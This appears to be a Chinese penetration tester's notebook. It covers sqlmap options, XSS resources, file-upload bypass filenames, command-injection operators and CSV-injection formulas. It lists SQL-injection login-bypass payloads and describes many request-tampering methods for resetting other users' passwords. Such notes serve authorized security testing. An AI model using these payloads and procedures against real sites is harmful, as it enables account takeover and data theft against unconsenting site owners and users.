例如:sqlmap -u [www.xx.com/login.asp](http://www.xx.com/login.asp) --data "username=1"

##### 4#、常用指令：

\1.   --purge   【重新扫描（--purge 删除原先对该目标扫描的记录）

\2.  --tables   【获取表名

\3.   --dbs     【检测站点包含哪些数据库

\4.   --current-db   【获取当前的数据库名

\5.   --current-user 【检测当前用户

\6.  --is-dba  【判断站点的当前用户是否为数据库管理员

\7.  --batch   【默认确认，不询问你是否输入

\8.  --search 【后面跟参数 -D -T -C 搜索列（C），表（T）和或数据库名称（D）

\9.  --threads 10 【线程，sqlmap线程最高设置为10

\10. --level 3    【sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头

​                的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高为5

\11. --risk 3      【执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全

\12.   -v  【详细的等级(0-6)

​     0：只显示Python的回溯，错误和关键消息。

​     1：显示信息和警告消息。

​      2：显示调试消息。

​      3：有效载荷注入。

​      4：显示HTTP请求。

​     5：显示HTTP响应头。

​     6：显示HTTP响应页面的内容

\13.  --privileges 【查看权限

\14.  --tamper xx.py,cc.py  【防火墙绕过，后接tamper库中的py文件

\15. --method "POST" --data "page=1&id=2"  【POST方式提交数据

\16. --threads number　　【采用多线程 后接线程数

\17. --referer "" 【使用referer欺骗

\18. --user-agent ""   【自定义user-agent

\19. --proxy “目标地址″  【使用代理注入

sqlmap常用路径：

\1. 添加表字段的目录在/usr/share/sqlmap/txt/common-tables.txt

\2. 存放扫描记录的目录在/root/.sqlmap/output

高阶玩法：

自己写tamper.py

#### **2.2XSS跨站脚本攻击：**

[xss漏洞原理分析与挖掘方法 - 知乎](evernote:///view/31101406/s32/0f251923-9d95-46c5-8a2b-680ce18061c9/0f251923-9d95-46c5-8a2b-680ce18061c9/)

[web漏洞 | XSS（跨站攻击脚本）详解](evernote:///view/31101406/s32/c527e103-df3d-49a9-89f0-f707580f26e3/c527e103-df3d-49a9-89f0-f707580f26e3/)

[XSS汇总](evernote:///view/31101406/s32/bc22dbb9-d81f-4993-9fa1-8f4b7be09a9c/bc22dbb9-d81f-4993-9fa1-8f4b7be09a9c/)

[XSS小结 - 先知社区](evernote:///view/31101406/s32/c5251a02-20b4-4122-b33f-f1cb9b74085d/c5251a02-20b4-4122-b33f-f1cb9b74085d/)

[2020跨站点脚本[xss\]速查表|雨苁](evernote:///view/31101406/s32/395bb46a-95fc-47f6-9939-78e4e58c6559/395bb46a-95fc-47f6-9939-78e4e58c6559/)

XSSer自动化工具

XSStrike 自动化绕过WAF

xss payload字典 burp爆破

客服对话系统上XSS打cookie

搭建XSS平台

#### **2.3文件上传**

​         字典生成 https://github.com/c0ny1/upload-fuzz-dic-builder

​         畸形文件名

​             Windows

​                  shell.php{%80-%99}

​                  NTFS ADS特性

​                       shell.php......

​                       shell.php::$DATA

​                        shell.php:a.jpg

​        目录穿越

​             上传后如果没有被文件重命名，可以在文件名值做目录跳转

​             注意一些像目录的参数名

​                     dir

​                     path

​                     location

​                     url

​             文件头绕过

​             修改上传类型 Content-Type

  双文件上传

  截断

•   长文件名

•   长Content-Disposition

•   %00截断

   特殊文件

•   svg / html / htm / swf

•   xss

•   pdf

•   chrome 里可以跳转

 cer / asa / spx / php5 / phtml

•   可能会被当做动态语言解析

  .htaccess / .user.ini / web.config / web.xml

•   修改解析规则

  .xls / .xlsx

•   POI Excel XXE

  .tar / .tar.gz / .zip

•   可能存在文件释放目录跳转问题

  .pkl

•   python反序列化文件

.xml

•   可能有 XXE

 .yaml / .yml

•   YAML 反序列化

 .jar / .class

•   上传到 java classpath 的目录下，类被加载时执行代码

无大小和次数限制

•   无限上传制造垃圾数据堵死硬盘

有图片加工的地方可以注意一下imagemagick命令执行

文件读取

读取系统敏感文件

文件包含

可读取文件或代码执行

文件删除

删除配置文件可破坏网站

删除安装锁可重装

文件解压

如果上传文件为 tar / tar.gz 类型，可以尝试构压缩包内文件名为../../../../xxx 的tar包

文件导出

 如果是CSV 或者 Excel可以注意一下CSV注入

=2222-1

-1+1=2222-1

@=2222-1

\r\n=2222-1

111,=2222-1,

#### **2.4命令执行**

•   命令注入

•   --xxxx 参数注入

•   | 和 | | 与符号

•   & 和 && 与符号

•   ; 分号

•   ${}

 代码执行

•   表达式

•   freemarker

•   OGNL

•   Spel

•   jsel

•   非表达式

•   php

•   eval

•   assert

•   call_user_func() / call_user_func_array()

•   preg_replace()

•   create_function()

•   array_map()

•   array_filter()

•   usort() / uasort()

•   反序列化

•   php 源文件拼接写入

•   java

•   反序列化

•   远程 jar 加载

•   反射机制

•   jsp 源文件拼接写入

#### **2.5弱口令及字典破解**

后台弱口令爆破撞库（尝试万能密码、特定资产常用密码、弱口令后再撞库）

asp aspx万能密码

 1： "or "a"="a

  2： ')or('a'='a

  3：or 1=1--

  4：'or 1=1--

  5：a'or' 1=1--

  6： "or 1=1--

  7：'or'a'='a

  8： "or"="a'='a

  9：'or''='

  10：'or'='or'

  11: 1 or '1'='1'=1

  12: 1 or '1'='1' or 1=1

  13: 'OR 1=1%00

  14: "or 1=1%00

  15: 'xor

  16: 新型万能登陆密码

  用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）

  密码 1

  Username=-1%cf' union select 1,1,1 as password,1,1,1 %23

  Password=1

  17..admin' or 'a'='a 密码随便

PHP万能密码

  'or'='or'

 

  'or 1=1/* 字符型 GPC是否开都可以使用

  User: something

  Pass: ' OR '1'='1

jsp 万能密码

  1'or'1'='1

  admin' OR 1=1/*

 

  用户名：admin 系统存在这个用户的时候 才用得上

  密码：1'or'1'='1

pydictor、cupp、crunch字典生成工具、自写字典生成py（小黑的人名字典py）；

dymerge字典合并去重工具、自己写去重py；

**hydra爆破工具**

超级弱口令检验工具

burpsuite 爆破

使用弱用户名对密码进行暴力破解

使用弱口令密码对用户名进行暴力破解

#### **2.6逻辑漏洞**

###### Cookie

一些网站会利用 Cookie 是否为空、Session 是否为 true 来判断用户是否可以登录，只要构造一个 Cookie 或 Session 为 true 就可以绕过认证登录

通过修改 Cookie 中的某个参数来实现登录其他用户,要抓包具体分析

数据篡改

数量、金额、ID、邮箱等数据：最大超过限制、负数、0、其他用户数据，提交后查看是否进入正常业务流程，是否存在越权

例子：

修改普通用户密码，抓包

将 Referer 和 POST 中的普通用户改成 admin

提交数据后，直接返回了 admin 的密码修改页面，利用逻辑漏洞获取超级权限

抓包修改手机号参数为其他号码进行尝试，例如办理查询页面，输入自己的号码然后抓包，修改手机号为他人号码，查看是否可以查询他人业务

手机号 篡改

邮箱或者用户 篡改

订单ID 篡改

商品编号 篡改

用户ID 篡改

金额 篡改

商品数量 篡改

###### **验证码绕过**

drop掉页面

返回包里可能就有验证码

一次验证码多用

验证码识别插件，burp

  注册界面：

​     任意用户注册

​     可爆破用户名 

​     注入

​     XSS

  **登录界面**：

​    爆破用户名、密码

​     注入

​    万能密码 

​    Xss Xss+Csrf 

​    修改返回包信息，登入他人账户 

​    修改cookie中的参数，如user,adminid等

**忘记密码界面**：

  任意密码重置概要：

​    1．重置一个账户，不发送验证码，设置验证码为空发送请求。 

​    2．发送验证码，查看相应包 

​    3．验证码生存期的爆破 

​    4．修改相应包为成功的相应包 

​    5．手工直接跳转到校验成功的界面 

​    6．两个账户，重置别人密码时，替换验证码为自己正确的验证码 

​    7．重置别人密码时，替换为自己的手机号 

​    8．重置自己的成功时，同意浏览器重置别人的，不发验证码 

​    9．替换用户名，ID，cookie，token参数等验证身份的参数 

  10．通过越权修改他人的找回信息如手机/邮箱来重置

**用户凭证暴力破解**（验证码）

绕过的话，这里可以考虑一个现状：

例如：

phone=18888888888abc

国内很多情况下都没有过滤字符和限制输出长度，验证很有可能只是简单的处理

只要更换手机号后面的字符，就可以绕过请求过于频繁的限制

但是校验时，手机号后面的字符会被过滤，也就是可以利用暴力破解验证码（不计入次数）

所以只要在暴力破解的同时，改变手机号后面的字符即可达到漏洞效果

根据手机号找回密码，但是验证次数被限制，抓包

可以尝试在手机号后面添加不为数字的字符，查看是否过滤

根据手机号找回密码，随便输个验证码，抓包

暴力破解验证码（假如只有四位），很快就可以破解出来

四位或六位纯数字，验证码次数未限制

例如：

如果验证码次数限制，破解一会就会提示请求过于频繁，这时就需要绕过限制

例如：

通过密保问题找回密码，查看源码，密保问题和答案就在源码中显示

返回凭证（验证码 及 token）、邮箱弱 token、用户凭证有效性、重新绑定

抓包，可以发现返回的数据中有一个加密的字符串（token），先记录下这个加密字符串

继续按照正常流程，登录邮箱获得验证码，返回填写验证码后，进入下一个填写新密码页面，发现 URL 后新增了一个加密验证的字符串

这个字符串就是之前数据包中记录的字符串，所以邮箱验证码这个环节可以绕过，直接用他人邮箱抓包获得加密字符串就可以重置他人密码

根据手机号找回密码，抓包，可以发现验证码直接显示 verifycode=xxxx，或者由 md5 加密后显示，解密即可（同理，有的时候输入用户名，抓包可以看到返回的手机号等其他信息）

根据邮箱找回密码,抓包直接返回,密码找回凭证可能在页面中

例如：

利用两个帐号同时点击找回密码，去邮箱查看找回密码的链接，发现两者的随机 token 只差 1-2，而且可以猜测出为服务器时间

所以可以用一个未知帐号和一个已知帐号同时点击找回密码，稍微遍历一下随机 token，就可以构造出未知帐号的密码找回链接

例如：

通过邮箱找回密码，正常流程去邮箱查看重置密码链接，发现链接处有一串 md5 加密字符串

字符串解密，类似 1491293277（10位），可以判断为 Unix时间戳，（可能md5）

重置他人密码只需要利用他人邮箱发送重置密码邮箱，在短时间内对 Unix时间戳 进行暴力破解，即可获得重置密码的链接

重置密码链接直接使用用户名来区别，改变用户名即可更改他人密码

绕过**token**

正常流程下，对每个功能模块进行抓包，分别是发送验证码，验证验证码是否正确，获取 token，重置密码

接下来，用他人帐号通过邮箱验证，抓包，将其中 Cookie 内从 JSESSIONID 开始的内容替换至正常流程的发生验证码包内，同时替换自己接受验证码的邮箱，提交

通过邮箱获取验证码后，将验证码、Cookie、他人帐号、自己邮箱替换至验证验证码模块，提交（不用在意返回是否错误）

继续替换内至获取 token 模块，提交获取 token

最后将获取的 token 和上面的内容替换至最后的重置密码模块，提交成功修改密码

例如：

通过邮箱找回密码，访问链接重置密码，输入新密码后提交时抓包，虽然有 token，但是依然可以直接修改 用户ID 进而修改他人密码

例如：

通过他人手机号找回密码，抓包，将他人手机号替换成自己的手机号，获取验证码，提交后修改密码

通过自己手机号找回密码，获取验证码后抓包，将数据包中的 username 改为他人用户名，提交后成功修改他人密码

短信验证码、邮箱 token、重置密码 token

例如：

通过邮箱找回密码，URL 链接中修改 用户ID 为他人，邮箱不变，之后通过链接可以将他人账户绑定为自己的邮箱，之后通过邮箱找回密码

例如：

给已知账户绑定手机，发现绑定手机的 URL 链接中有 uid 参数，修改 uid 参数为他人的，即可实现将他人的账户绑定上自己的手机，之后通过手机来修改密码

修改个人资料处抓包，修改 userId 为他人，修改 mobilePhone 为自己的手机，即可实现将他人的账户绑定上自己的手机，之后通过手机来修改密码

手机绑定、邮箱绑定

例如：

通过密码保护问题找回密码，抓包，将密码保护问题删除，直接修改密码，提交

注：此处密保问题和新密码在同一页面

例如：

正常流程，通过手机号提交验证码找回密码处抓包，记录下这个包的内容

通过已知用户名找回密码，查看源代码可以发现用户其他信息（比如：手机号、邮箱）

通过发现的手机号选择通过手机找回密码，随便输入短信验证码，抓包

修改之前记录下的包的内容，将其中 Session id、用户ID 修改为刚刚从其他用户名抓包获得的内容，提交这个包，即可成功修改他人密码

最终提交步骤

例如：

通过邮箱找回密码，最后通过链接至修改密码页面，修改密码后提交，抓包，获得 Uid 参数，修改为他人，即可修改其他用户密码

服务器验证的验证逻辑为空（绕过认证）

例如：

通过邮箱找回密码，点击请重新发送邮件处抓包，将邮箱改为自己的邮箱，通过链接成功修改密码

例如：

通过手机找回密码，输入验证码和新的密码，F12 审查元素，修改自己的手机为他人手机，提交成功修改他人手机（也可以抓包修改）

例如：

正常流程下，密码找回，查看最后设置新密码页面的 URL，记录下来

继续返回密码找回处，输入其他用户名，提交找回申请，直接访问上面记录下的修改密码页面，成功修改密码

也可以正常流程下，修改密码页面抓包，修改其中的 USERNAME_COOKIE 为其他用户（有可能会经过编码，比如 base64），提交即可修改其他用户密码

如果抓包其中有 step 参数，可以修改这个参数为最后一步（比如：5），提交便可略过之前的步骤

跳过验证步骤、找回方式、直接到设置新密码页面

例如：

通过用户名找回密码，提交后会自动发送验证码到手机中，所以抓包，修改手机为自己的手机（如果其中有 type 之类的参数，也可以尝试修改，有 email之类的参数，可以尝试删除内容）

发送修改后的包，手机成功接收验证码

输入验证码，继续发送，抓包，如果有 type 之类的参数，可以继续尝试修改，发送就可以成功修改密码

例如：

通过手机找回密码，随便输入验证码，抓包，发送，拦截返回包

修改返回包中的返回码，继续发送，说不定就可以绕过验证，直接跳到修改密码的页面

通过手机找回密码，正常流程下到重置密码页面，抓包查看返回数据中有一段加密字符串

利用他人手机找回密码，URL 跳转到验证身份页面，链接中就有一段加密字符串，记录下，随便输入验证码

抓包，修改包中数据为正常流程下的数据，替换加密字符串，Forward 发送，就可以绕过验证码，直接修改密码

输入用户名，加个单引号报错，说明可能存在报错，抓包，保存为 txt 文件，导入 Sqlmap 中跑一遍

找回密码处存在注入漏洞(见框就×)

通过邮箱找回密码，正常流程下，抓包查看提交验证码后返回的数据，发现有加密字符串，这个加密字符串和后面重新设置新密码 URL 链接中的加密字符串一样，所以可以利用这个加密字符串

根据上面提交验证码的抓包，修改其中的 User 为其他用户（User 有可能会使用 md5 加密），发送，就可以返回其他用户的加密字符串

重新返回到找回密码首页，利用其他用户找回，点下一步，到输入验证码处（也有可能需要点击发送验证码），直接修改 URL 链接，加入加密字符串，可以直接绕过验证码，重置密码

session覆盖漏洞

注册重复的用户名，例如 admin，相当于修改了密码

同一浏览器，首先输入自己的账户进行邮箱密码找回，进入邮箱查看链接，接着输入他人账户，进行密码找回，返回刚刚自己的邮箱点击链接，由于 session 覆盖导致了，这个链接成为了修改他人密码的链接，成功修改他人密码

尝试正常密码找回流程

选择不同的找回方式，记录所有数据包

邮箱找回密码

根据密码保护问题找回密码

根据手机号找回密码

分析数据包，找出敏感部分

分析后台找回机制所采用的验证手段

修改数据包进行验证是否存在密码找回漏洞

 

   

   